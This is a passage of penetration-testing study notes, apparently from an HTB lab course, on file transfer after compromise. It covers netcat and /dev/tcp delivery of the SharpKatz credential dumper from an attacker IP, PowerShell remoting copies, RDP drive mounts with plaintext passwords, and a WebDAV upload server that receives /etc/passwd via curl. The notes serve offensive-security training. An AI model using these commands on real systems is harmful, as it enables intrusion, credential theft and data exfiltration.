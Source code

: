4. If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/.
    1. NetCat - Sending File as Input to Netcat: `sudo nc -l -p 443 -q 0 < SharpKatz.exe` **OR**
    2. Ncat - Sending File as Input to Ncat: `sudo ncat -l -p 443 --send-only < SharpKatz.exe`
    3. Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File: `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`
#### **PowerShell Session File Transfer**
1. Basic enumeration with `whoami`, `hostname`, `Test-NetConnection -ComputerName DATABASE01 -Port 5985`
2. Create a PowerShell Remoting Session to DATABASE01: `$Session = New-PSSession -ComputerName DATABASE01`
3. Copy samplefile.txt from our Localhost to the DATABASE01 Session: `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`
4. Copy DATABASE.txt from DATABASE01 Session to our Localhost: `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`
#### **RDP**
1. Mounting a Linux Folder Using rdesktop: `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
2. Mounting a Linux Folder Using xfreerdp: `xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
## **Protected File Transfers**
#### **File Encryption on Windows**
1. Download [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1)
2. Import module: `Import-Module .\Invoke-AESEncryption.ps1`
3. File Encryption Example: `Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt`
#### **File Encryption on Linux**
1. Encrypting /etc/passwd with openssl: `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc`
2. Decrypt passwd.enc with openssl: `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd`
## **Catching Files over HTTP/S**
1. Create a Directory to Handle Uploaded Files: `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
2. Change the Owner to www-data: `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
3. Create Nginx Configuration File:
    ```bash
        server {
        listen 9001;
        
        location /SecretUploadDirectory/ {
            root    /var/www/uploads;
            dav_methods PUT;
        }
    }
    ```
4. Symlink our Site to the sites-enabled Directory: `sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
5. Start Nginx: `sudo systemctl restart nginx.service`
6. Verifying Errors:
    1. `tail -2 /var/log/nginx/error.log`
    2. `ss -lnpt | grep 80`
    3. `ps -ef | grep 2811`
7. Remove NginxDefault Configuration: `sudo rm /etc/nginx/sites-enabled/default`
8. Upload File Using cURL:
    1.  `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`
    2. `sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt `